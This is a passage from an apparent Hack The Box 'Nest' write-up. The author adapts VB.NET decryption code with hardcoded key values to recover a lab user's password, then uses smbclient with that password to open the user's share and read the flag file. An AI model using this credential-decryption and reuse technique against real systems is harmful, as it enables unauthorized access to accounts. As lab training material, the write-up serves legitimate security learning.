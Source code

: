 ```vb.net

        Dim plainTextBytes As Byte()
        ReDim plainTextBytes(cipherTextBytes.Length)

        Dim decryptedByteCount As Integer
        decryptedByteCount = cryptoStream.Read(plainTextBytes, _
                                               0, _
                                               plainTextBytes.Length)

        memoryStream.Close()
        cryptoStream.Close()

        Dim plainText As String
        plainText = Encoding.ASCII.GetString(plainTextBytes, _
                                            0, _
                                            decryptedByteCount)

        Return plainText
    End Function
```
To quickly run any kind of .NET code on the go without having to install Visual Studio and the proper dependencies, I highly recommend the website [`https://dotnetfiddle.net/`](https://dotnetfiddle.net/).  

I selected `VB.NET` as my language, then copied over the relevant code into the site, and with a little bit of tweaking was able to hit the `> Run` button up top to get the output of my code.  You can see below how I modified the `Main()` function to print the decrypted password to the console using the hardcoded values from `Utils.DecryptString()`. 
```
Public Function Main()
        Console.Writeline(Decrypt("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=", "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256))
		return 0
    End Function
```
![user_csmith_decrypt.png](https://github.com/zweilosec/htb-writeups/blob/master/Images/nest/user_csmith_decrypt.png)

As you can see, my shortened program worked and gave me the password for `c.smith`, which is `xRxRxPANCAK3SxRxRx`!

## Path to Power (Gaining Administrator Access)

Now that I had credentials as another user, time to see if I could find that `user.txt`.  It was in the `Users` share, right in the `c.smith` folder.
```
zweilos@kalimaa:~/htb/nest$ smbclient -W HTB-NEST -U c.smith \\\\10.10.10.178\\Users xRxRxPANCAK3SxRxRx
Try "help" to get a list of possible commands.
smb: \> cd c.smith
smb: \c.smith\> ls
  .                                   D        0  Sun Jan 26 02:21:44 2020
  ..                                  D        0  Sun Jan 26 02:21:44 2020
  HQK Reporting                       D        0  Thu Aug  8 19:06:17 2019
  user.txt                            A       32  Thu Aug  8 19:05:24 2019

                10485247 blocks of size 4096. 6545935 blocks available
```
```
zweilos@kalimaa:~/htb/nest$ cat 'c.smith\user.txt'
81960e14de90f242c05d946fc1f94cbe
```
```
smb: \c.smith\> cd "HQK Reporting"
smb: \c.smith\HQK Reporting\> ls
```
